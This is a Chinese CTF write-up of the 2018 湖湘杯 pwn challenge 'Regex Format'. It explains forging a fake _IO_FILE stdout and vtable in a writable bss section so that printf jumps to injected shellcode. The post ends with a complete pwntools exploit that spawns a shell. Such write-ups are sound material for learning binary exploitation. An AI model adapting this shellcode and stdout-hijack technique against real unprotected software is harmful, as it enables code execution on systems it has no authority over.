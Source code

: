 ```yaml
---
title: 湖湘杯2018-Regex Format
date: 2018-11-20 16:27:22
tags: 题目
---
```

<h1><strong>0x00 前言</strong></h1>
hxb2018题目 pwn1-Regex  Format赛时没有做出来 听师傅们说用IO_FILE文件劫持流 赛后学习了学习
只能说学到姿势比赛都没用到 一比赛就有新姿势..
<h1><strong>0x01 IO_FILE_stdout</strong></h1>

这点我不用多详细介绍.. CTF-WIKI中有详细的介绍https://ctf-wiki.github.io/ctf-wiki/pwn/linux/io_file/introduction/
我们主要讲一下这个如何使用这个漏洞方法 FILE文件结构是
```c++
struct _IO_FILE_plus
{
    _IO_FILE    file;
    IO_jump_t   *vtable;
}
```
其中包含着_IO_FILE结构和IO_jump_t结构 重点就是一些函数进行IO操作时候会去访问vtable里面的函数指针 那我们如果修改vtable函数
指针的话就可以达到任意地址读写 下面就上本博客的重点hxb2018-Regex Format
<h1><strong>0x02 Regex Format</strong></h1>

拿到文件先checksec一下
```
[*] '/home/rep/R3p_1s_G0d/hxb2018/pwn1'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```
无保护 什么操作都可以.. 文件拖入IDA静态调试一番 其实整个程序很长的 后面还有一个bss段data段匹配的过程 因为这个文件什么保护都没有 赛后有大佬用的栈溢出也是可以的
![](https://i.loli.net/2018/11/20/5bf3c9850d9d9.png)
``aBeforeUseItUnd``是data段 他先取了这个这个字段的长度从aBeforeUseItUnd偏移这个长度开始开始写入第一个(这个长度gdb动态调试一下就出来了)
下面重点来了
![](https://i.loli.net/2018/11/20/5bf3ccbe25407.png)
下面这串字串写在了unk_804A634段 取查看了下 unk_804A634在bss段中 并且bss段可写 那就可以把shellcode写到bss段 再去用vtable指针指向我们的shellcode就可以了 
下面需要做的就是先去伪造一个_IO_FILE结构体并且使它的地址指向我们伪造的vtable 是vtable的printf指针指向我们的shellcode处(因为再匹配后调用了printf 所有可以修改vtable中的printf指针)
先看一一下_IO_FILE结构体
```python
$1 = {
  file = {
    _flags = 0xfbad2084, 
    _IO_read_ptr = 0x0, 
    _IO_read_end = 0x0, 
    _IO_read_base = 0x0, 
    _IO_write_base = 0x0, 
    _IO_write_ptr = 0x0, 
    _IO_write_end = 0x0, 
    _IO_buf_base = 0x0, 
    _IO_buf_end = 0x0, 
    _IO_save_base = 0x0, 
    _IO_backup_base = 0x0, 
    _IO_save_end = 0x0, 
    _markers = 0x0, 
    _chain = 0xf7fb75a0 <_IO_2_1_stdin_>, 
    _fileno = 0x1, 
    _flags2 = 0x0, 
    _old_offset = 0xffffffff, 
    _cur_column = 0x0, 
    _vtable_offset = 0x0, 
    _shortbuf = "", 
    _lock = 0xf7fb8870 <_IO_stdfile_1_lock>, 
    _offset = 0xffffffffffffffff, 
    _codecvt = 0x0, 
    _wide_data = 0xf7fb74e0 <_IO_wide_data_1>, 
    _freeres_list = 0x0, 
    _freeres_buf = 0x0, 
    __pad5 = 0x0, 
    _mode = 0x0, 
    _unused2 = '\000' <repeats 39 times>
  }, 
  vtable = 0xf7fb6ac0 <_IO_file_jumps>
}
```
结构差不多是这个样子 接下来看看在内存中的存储
```
0xf7fb7d60 <_IO_2_1_stdout_>:	0x00000000fbad2084	0x0000000000000000
0xf7fb7d70 <_IO_2_1_stdout_+16>:	0x0000000000000000	0x0000000000000000
0xf7fb7d80 <_IO_2_1_stdout_+32>:	0x0000000000000000	0x0000000000000000
0xf7fb7d90 <_IO_2_1_stdout_+48>:	0xf7fb75a000000000	0x0000000000000001
0xf7fb7da0 <_IO_2_1_stdout_+64>:	0x00000000ffffffff	0xfffffffff7fb8870
0xf7fb7db0 <_IO_2_1_stdout_+80>:	0x00000000ffffffff	0x00000000f7fb74e0
0xf7fb7dc0 <_IO_2_1_stdout_+96>:	0x0000000000000000	0x0000000000000000
0xf7fb7dd0 <_IO_2_1_stdout_+112>:	0x0000000000000000	0x0000000000000000
0xf7fb7de0 <_IO_2_1_stdout_+128>:	0x0000000000000000	0x0000000000000000
0xf7fb7df0 <_IO_2_1_stdout_+144>:	0xf7fb6ac000000000	0xf7fb7d60f7fb7cc0
```
我们只要保证flag位和vtable正确就可以 flag位要通过libc的检验详情看https://www.jianshu.com/p/f14adeda85df
flag要满足``flag&8 = 0 and flag &2 =0 and flag & 0x8000 != 0``所以我们flag可以取``0xfbad8080，0xfbad8000``等..
可以看到flag位和0xf7b6ac0(vtable指针)中间差了36个四字节 那就是IO_FILE结构体中其他变量 我们在这里都不需要管
所有我们就可以伪造处fake_IO_stdout = flag大小+'0000'*36+fake_vtable
伪造完IO_FIlE后 我们需要去伪造vtable让我们去写入我们的shellcode 我们在bss段找一个合适大小的地方 因为前面的fake_IO_stdout已经快写了0x100字节
我们就补全他们 从unk_804A634+0x100开始当我们的vtable处 vtable结构体的样子
```python
void * funcs[] = {
   1 NULL, // "extra word"
   2 NULL, // DUMMY
   3 exit, // finish
   4 NULL, // overflow
   5 NULL, // underflow
   6 NULL, // uflow
   7 NULL, // pbackfail
   
   8 NULL, // xsputn  #printf
   9 NULL, // xsgetn
   10 NULL, // seekoff
   11 NULL, // seekpos
   12 NULL, // setbuf
   13 NULL, // sync
   14 NULL, // doallocate
   15 NULL, // read
   16 NULL, // write
   17 NULL, // seek
   18 pwn,  // close
   19 NULL, // stat
   20 NULL, // showmanyc
   21 NULL, // imbue
};
```
可以很清楚的看到第8个位置是我们的printf函数需要去访问的地方 前28字节覆盖到第8个位置时候我们赋值为当前地址之后意思就是当printf访问该地方时候会去访问偏移4字节之后的地方 
这样我们刚好在后面布置我们的shellcode 所有是fake_table = 'a'*28+当前地址+4+shellcode(shellcode起始位置就是前面变量起始处+4)
最后一步就是 使stdout流引到我们fake的stdout上 gdb调试一下了解到需要覆盖0x49字节
<h1><strong>0x03 exp</strong></h1>

```python
#!/usr/bin/python
from pwn import *
#first index
context.binary = "./pwn1"
#context.log_level="debug"
sh = process('./pwn1')
#sh = remote('ip',端口)

fake_IO_stdout = 0x804A24C
fake_vtable = 0x804A24C + 0x100
sh.recvuntil('format\n')
sh.sendline('a')


#two index -> fake IO_stdout
payload = p32(0xfbad8000)+p32(0)*36+p32(fake_vtable)
payload = payload.ljust(0x100,'\x00')

#three index ->fake IO_vtable
shell = payload + 'a'*28 + p32(fake_IO_stdout+0x120)+asm(shellcraft.sh())
sh.recvuntil('match\n')
sh.sendline(shell)

#gdb.attach(sh)
#four index -> mondify stdout
shell = 'a'*0x49 + p32(fake_IO_stdout)
sh.recvuntil('[Y/n]\n')
sh.sendline('Y')
sh.recvuntil('format\n')
sh.sendline(shell)
sh.interactive()
```